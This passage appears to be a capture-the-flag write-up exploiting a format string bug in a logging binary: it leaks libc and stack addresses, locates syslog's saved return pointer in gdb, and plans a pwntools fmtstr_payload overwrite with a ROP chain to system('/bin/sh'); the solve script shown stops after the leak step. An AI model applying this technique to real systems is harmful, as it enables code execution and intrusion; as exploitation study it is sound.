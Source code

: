 ```py
p.interactive()
```

I ran it on remote, and got 2 addresses. I gave it to `https://libc.rip/` and it found our libc, which is `libc-2.35.so`.

Now, we are ready to exploit this bug.

Firstly, with our `FSB` bug, I dumped several entries, and leaked a `stack` address.

Currently we have both `stack` leak and `libc` leak. 

We can use our `FSB` bug , to gain an arbitrary write. but what can we write into?

We have stack leak, so we can write into a saved return pointer of some function.

In my exploit, I overwrote the return pointer of the last call to `syslog` . (It's cool because `syslog` will write to its own return pointer)

In order to find its offset from our stack leak, I have set a breakpoint with `gdb` on the call to `syslog`, and saw where it is located.
Then I just substraced it with our leak, and got that its 0x340 bytes before it:

```
00:0000│ rsp 0x7ffd0706d758 —▸ 0x401635 (main+443) ◂— call 0x4010f0 ------------> here it is, in 0x7ffd0706d758
01:0008│     0x7ffd0706d760 ◂— 0x4f4c000000000001
02:0010│     0x7ffd0706d768 ◂— 0x4f464e495f47 /* 'G_INFO' */
03:0018│ rsi 0x7ffd0706d770 ◂— 0x3533256332353125 ('%152c%35')
04:0020│     0x7ffd0706d778 ◂— 0x633534256e6c6c24 ('$lln%45c')
05:0028│     0x7ffd0706d780 ◂— 0x256e686824363325 ('%36$hhn%')
06:0030│     0x7ffd0706d788 ◂— 0x6c24373325633731 ('17c%37$l')
07:0038│     0x7ffd0706d790 ◂— 0x3833256337256e6c ('ln%7c%38')

pwndbg> x 0x7ffd0706da98-0x7ffd0706d758
0x340:	Cannot access memory at address 0x340
```

Then, I used `pwntools FSB utils`, specificlly the `fmtstr_payload` function, to write to the return pointer.

With my `libc` leak, I crafted a simple `ROP chain` to jump to `system(/bin/sh)`.

Here is my final solve script:

```py
from pwn import *

context.arch = 'amd64'
elf = ELF("./bin")
libc = ELF("./libc6_2.35-0ubuntu3_amd64.so")
rop = ROP(libc)

p = gdb.debug("./bin")

def write(buf):
	p.recvuntil("choice: ")
	p.sendline("1")
	p.sendline("LOG_INFO")
	p.sendline(buf)


write("6666%p|%p|%78$p|4444")

p.recvuntil("choice: ")
p.sendline("2")
p.recvuntil("6666") # recv everything before our leaks

fsb_leaks = p.recvuntil("4444").replace(b"4444", b'').split(b"|")
```